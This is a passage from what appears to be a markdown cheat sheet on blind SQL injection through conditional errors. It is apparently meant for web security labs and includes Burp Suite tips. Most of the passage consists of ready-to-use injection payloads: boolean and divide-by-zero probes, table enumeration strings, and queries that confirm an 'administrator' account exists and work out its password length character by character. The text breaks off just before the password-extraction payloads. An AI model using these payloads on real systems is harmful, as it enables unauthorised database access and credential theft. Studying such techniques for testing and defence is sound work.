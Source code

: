    * Note:  If having trouble sorting by 2 columns in Burp Suite.  You can copy/paste only the necessary columns in an Excel sheet, sort them appropriately by the "Payload 1" request so they are in order (1-20) positions.  Then use the =CONCAT() command on the "Payload 2" column so the password is combined automatically.


<br><br><br>

#### SQLi Blind Conditional Errors Examples


* Identify if the following 2 payloads result in a notable difference in the responses from the application:


    * ' and 1=1--

    * ' and 1=0--


* Identify if the below payloads cause an SQL exception or error message.  Dividing by zero may cause an exception:


    * ' and to_char(1/1)=1--

    * ' and to_char(1/0)=1--

<br>

* **Payloads to enumerate table names:**

```
'||(select '' from {tableName} where rownum = 1)||'
```
```
'union select 'a' from {tableName} where 1=1--
```


* **Payloads to determine if there is a user named administrator on the table called users.**  If the <u>user exists</u>, then an error (1/0) will result.  Basically, if the <u>query is valid</u> then an exception will occur, if it is <u>not valid</u> then the '' will be executed:

```
'||(select case when(1=1) then to_char(1/0) else '' end from users where username='administrator')||'
```



* **Payloads to determine the length of the password for a user called administrator.**  If the password is greater than 20 characters, then an error (1/0) will result:

```
'||(select case when length(password)>20 then to_char(1/0) else '' end from users where username='administrator')||'
```


* **Extract the password of a user.**  For both payloads, if the character in the current position is correct, then the error (1/0) will execute:

